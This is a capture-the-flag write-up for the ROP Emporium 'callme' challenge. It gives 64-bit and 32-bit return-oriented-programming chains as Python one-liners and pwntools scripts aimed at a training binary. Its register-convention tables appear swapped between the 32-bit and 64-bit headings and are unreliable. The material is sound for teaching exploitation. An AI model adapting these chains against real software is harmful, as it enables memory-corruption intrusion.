# Callme
[CAllme]: https://ropemporium.com/challenge/callme.html

- We must call 3 functions in the order: `callme_one`, `callme_two`, `callme_three`

- Every function want 3 parameters in the specified order, so we must remember `ABI` for 64 and 32 bit:

  - **32bit**: callme_X(`0xdeadbeef`, `0xcafebabe`, `0xd00df00d`) --> but we will see that the functions will take parameters directly from the stack

| rax     | rdi  | rsi  | rdx  | r10  | r8   | r9   |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |

  - **64bit**: callme_X(`0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d`) 

| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| eax     | ebx  | ecx  | edx  | esi  | edi  | ebp  |

## 64 bit

We need the following things to came up with our ROP:

- 40 thrash character as in previous 64 bits challenges

- `callme_x()` addresses --> **callme_one** `0x00400720`, **callme_two** `0x00400740`, **callme_three** `0x004006f0`

![callme1](./assets/callme1.png)

- `pop rdi; pop rsi; pop rdx; ret;` gadget --> `0x000000000040093c`

![callme2](./assets/callme2.png)

Our ROP is:  `40_bytes_of_padding + gadget + param1 + param2 + param3 + callme_1 +  gadget + param1 + param2 + param3 + callme_2 + gadget +  param1 + param2 + param3 + callme_3`

So remembering little endianess:

```python
python -c 'print "\x55"*40 + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x20\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x40\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\xf0\x06\x40\x00\x00\x00\x00\x00"' | ./callme
```

### pwntools

```python
from pwn import *

context.binary = elf = ELF("callme")
io = process(elf.path)

payload = b'A'*40 
payload += p64(0x000000000040093c) # pop rdi; pop rsi; pop rdx; ret; 
payload += p64(0xdeadbeefdeadbeef) # param 1
payload += p64(0xcafebabecafebabe) # param 2
payload += p64(0xd00df00dd00df00d) # param 3
payload += p64(0x00400720) # callme1
payload += p64(0x000000000040093c) # pop rdi; pop rsi; pop rdx; ret; 
payload += p64(0xdeadbeefdeadbeef) # param 1
payload += p64(0xcafebabecafebabe) # param 2
payload += p64(0xd00df00dd00df00d) # param 3
payload += p64(0x00400740) # callme2
payload += p64(0x000000000040093c) # pop rdi; pop rsi; pop rdx; ret; 
payload += p64(0xdeadbeefdeadbeef) # param 1
payload += p64(0xcafebabecafebabe) # param 2
payload += p64(0xd00df00dd00df00d) # param 3
payload += p64(0x004006f0) # callme3

io.sendline(payload)
print(io.recvall())
```

## 32 bit

We need the following things to came up with our ROP:

- 44 thrash bytes as in previous 32 bits challenges, and 4 thrash bytes after every call

- `callme_x()` addresses --> **callme_one** `0x080484f0`, **callme_two** `0x08048550`, **callme_three** `0x080484e0`

 ![callme4](./assets/callme4.png)

- As last thing we have the following issue: **callme_x()** functions reads **parameters direclty in the stack** (disassemble it and check it), so they wont pop them out from there, in this cas, after completing `callme_one` call, the flow wont go on `callme_2` because all parameter still in the stack

  -  Wrong ROP:  `44_bytes_of_padding + callme_1 + 4_bytes_fake_ebp(ret_address) + param1 + param2 + param3 + callme_2 ...` 

  - So we need a gadget that POP out our parameters `0x080487f9`

  ![callme5](./assets/callme5.png)

Our ROP is:  `44_bytes_of_padding + callme_1 + gadget + param1 + param2 + param3 + callme_2 + gadget  + param1 + param2 + param3 + callme_3 + gadget  + param1 + param2 + param3 `

So remembering little endianess:

```python
python -c 'print "\x55"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\x50\x85\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\xe0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' | ./callme32
```

### pwntools

```python
from pwn import *

context.binary = elf = ELF("callme32")
io = process(elf.path)

param1 = 0xdeadbeef
param2 = 0xcafebabe
param3 = 0xd00df00d

pop_pop_pop = 0x080487f9 

payload = b'A'*44 # padding

payload += p32(elf.symbols.callme_one) # callme_one()
payload += p32(pop_pop_pop)
payload += p32(param1)
payload += p32(param2)
payload += p32(param3)

payload += p32(elf.symbols.callme_two) # callme_two()
payload += p32(pop_pop_pop)
payload += p32(param1)
payload += p32(param2)
payload += p32(param3)

payload += p32(elf.symbols.callme_three) # callme_three()
payload += p32(pop_pop_pop)
payload += p32(param1)
payload += p32(param2)
payload += p32(param3)

io.sendline(payload)
print(io.recvall())
```

